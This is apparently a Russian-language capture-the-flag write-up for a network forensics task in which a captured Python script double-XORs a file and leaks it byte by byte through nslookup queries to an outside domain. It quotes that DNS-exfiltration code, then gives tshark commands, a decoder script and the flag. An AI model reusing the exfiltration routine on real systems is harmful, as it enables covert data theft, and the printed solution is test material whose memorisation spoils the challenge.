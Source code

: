 # Scriptkidding

| Название | Сложность | Автор |
|------|-----|-------|
| Scriptkidding | Easy | @collapsz |

## Описание:

На днях ткнулся в какой-то тестовый сервер и стащил оттуда дешевые авиабилеты. Даже использовал кастомное шифрование. Просчитался? Но где?? 

## TLDR:

Зашифрованная DNS-эксфильтрация в сетевом трафике с известным алгоритмом шифрования 

---
## Решение:

В задании предоставлен дамп сетевого трафика, открываем его в Wireshark и анализируем. В глаза бросается HTTP GET на некий hdfgoa.py

![изображение](https://github.com/user-attachments/assets/0e891690-8bbf-4a94-8a3f-36bca9f527ba)

Посмотрим на его содержимое:

![изображение](https://github.com/user-attachments/assets/ff5c6419-474c-4a1f-a08e-381f759c9069)

Скрипт принимает на вход два аргумента – file и h. Читает файл:

```
try:
    with open('file', 'rb') as f:
        content = f.read()
```

Шифрует его при помощи двойного ксора и переводит в байты:

```
def xor(data, key):
    return bytes([data[i] ^ key[i % len(key)] for i in range(len(data))])

try:
    with open('file', 'rb') as f:
        content = f.read()
        enc = xor(xor(content, key1), key2)
        bytes_list = [hex(b)[2:].zfill(2) for b in enc]
```

Далее побайтово отправляет dns-запрос на поддомен *.hostname – классическая dns-эксфильтрация:

```
for byte in bytes_list:
            subprocess.run(['nslookup', '-type=TXT', f'{byte}.{hostname}'])
            subprocess.run(['sleep', '1'])
```

Нам известен алгоритм шифрования, поэтому после определения техники атаки остается лишь вытащить нужные данные и расшифровать их.  

Для того работы с pcap-файлом воспользуемся утилитой tshark. Для начала достанем из него все DNS-запросы:

```
tshark -r dns.pcap -Y "dns" -T fields -e dns.qry.name 
```

Из них подавляющее большинство летит на хост *.oastify.com – отсортируем их от всего остального:

```
tshark -r dns.pcap -Y "dns" -T fields -e dns.qry.name | grep -E '.*\.oastify\.com$'
```

Уже лучше. Теперь очистим дубликаты, отсечем домен верхнего уровня и соединим все воедино:

```
tshark -r dns.pcap -Y "dns" -T fields -e dns.qry.name | grep -E '.*\.oastify\.com$' | grep -o '^[^.]\+' | tr -d '\n'
```
Теперь, развернем алгоритм шифрования:

```
import sys

def xor(data, key):
    return bytes([data[i] ^ key[i % len(key)] for i in range(len(data))])

def decode_hex(hex_str):
    try:
        encrypted_data = bytes.fromhex(hex_str)
        
        key1 = bytes.fromhex('1337')
        key2 = bytes.fromhex('DEADBEEF')
        
        decrypted = xor(xor(encrypted_data, key2), key1)
        
        return decrypted.decode('utf-8', errors='replace')
    
    except Exception as e:
        print(f"Decoding error: {str(e)}")
        return None

if __name__ == "__main__":
    if len(sys.argv) != 2:
        print("Usage: python3 decoder.py <hex_string>")
        sys.exit(1)    
    hex_input = sys.argv[1].strip()
    result = decode_hex(hex_input)
    flag_part = 'rdg{'
    if result:
        if flag_part in result: 
       	    print("[+] Flag found", result)
        else:
            print("[-] No flag found")
    else:
        print('Failed to decrypt')
```

И скормим ему нашу зашифрованную строку:

```
python3 decrypt.py $(tshark -r dns.pcap -Y "dns" -T fields -e dns.qry.name | grep -E '.*\.oastify\.com$' | grep -o '^[^.]\+' | tr -d '\n')
```
![изображение](https://github.com/user-attachments/assets/1f6d8e12-a48d-450b-bbf4-99d1d6b923a7)

## Flag:

rdg{d42c857ad179690d37ba7857f2b0ab54}
